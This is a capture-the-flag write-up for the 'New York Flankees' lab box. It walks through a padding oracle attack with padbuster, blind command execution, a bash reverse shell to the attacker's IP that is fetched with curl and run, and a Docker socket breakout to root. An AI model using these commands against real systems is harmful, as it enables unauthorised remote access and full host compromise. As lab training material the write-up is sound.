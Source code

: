 # New York Flankees

![NYFLANKEES](images/challenge.png)

The New York Flankees box is a **medium** level challenge and focuses on `Web Exploitation` and breaking out of a `Docker` container.

### Enumeration
Firstly, we start a Nmap scan and notice that there are two ports open: 22 and 8080.

![Nmap scan](images/nmap.png)

With this information I visited the website to look for more information. In the meantime I launched `Feroxbuster` to give me an idea about the size and the directories in the web-application. There were not alot of directories and other pages, but I did find a admin panel. Scattered throughout the website itself were multiple hints about `Oracle` and `Padding`?

I quickly found a piece of JS which showed us that the page checks for the existance of a cookie called `loggedin`. With this cookie enabled the login button changed to a `DEBUG` button which showed us a TO-DO list of the developer. Here we found the hint about the `Padding`.

What have the words `Oracle` and `Padding` in common? That's right! maybe the site was vulnerable to a `Padding Oracle` attack.
[I checked the internet](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv) and found a way to scan for these vulnerablilities with a tool called `padbuster`.

I quickly gathered the information `padbuster` needed. The command looked like this:
```sh
padbuster http://<IP>:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 1
```

It worked! `padbuster`  managed to break the encrypted blocks and showed us the decrypted strings which were also the first flag of the challenge 🚩

The decrypted strings could be used to login as user `Stefan` in the previously found login portal.
Once we logged in we captured the second flag 🚩 and had access to a form.

![Command Exec](images/command_exec.png)

This form could be used to execute commands on the system, but we did not get to see the output of the commands, which was quite annoying. I tried to execute a reverse shell one-liner, but sadly this did not work. I used `BurpSuite` to check if I could find out which packages were installed on the machine. For every command which did not fail, we got a 200 return value.
![Command Exec](images/burp_python.png)

As you can see in the image above, the `python3` package was available on the system and returned **OK**.
![Command Exec](images/burp_nc.png)
To further showcase what happend when a package was not found, the machine returned a **500 Internal Server Error**.

### Getting a reverse shell
As previously mentioned, the reverse shell one-liners did not work. I did find out the we had access to the `curl` binary.
I created a file called `reverse.sh` with the following contents:
```sh
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_THM_IP>/9001 0>&1
```

I used `python3 -m http.server 8000` to startup a simple webserver on my own machine and used `curl` to retieve this file and store it in the `/tmp` directory. I started a `NetCat` listener, gave the file the right permissions and executed it.

Voilà, we managed to get a reverse shell! 🥳

### Breaking ~~Bad~~ Out 🐳
As we were in a Linux enviroment I always use `linpeass` to gather more information about the machine and the environment we are in, which was a Docker container.

![Command Exec](images/peass.png)

First thing I noticed was that we had access to the `Docker socket` from within the Docker container. Further enumeration of the container, I found the `docker-compose.yaml` file, which contained the third flag of the challenge 🚩

After some quick searching [I came across the following article on hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation).

![Command Exec](images/hacktricks.png)

Which meant that hopefully we could breakout easily from the `Docker` environment. As you can see in the image below, we had access to the `Docker daemon` by succesfully executing `Docker` commands in out current container.

![Docker Images](images/docker_images.png)

### Root?
You can use the images to breakout of the `Docker` container and gain **root** access on the original machine.
Simply get the `IMAGE ID` of the `gradle` container and use it in the following command:
```sh
docker run -it -v /:/host/ d5954e1d9fa4 chroot /host/ bash
```

 Success! The fourth and last flag 🚩 can be found in `/root` 🥳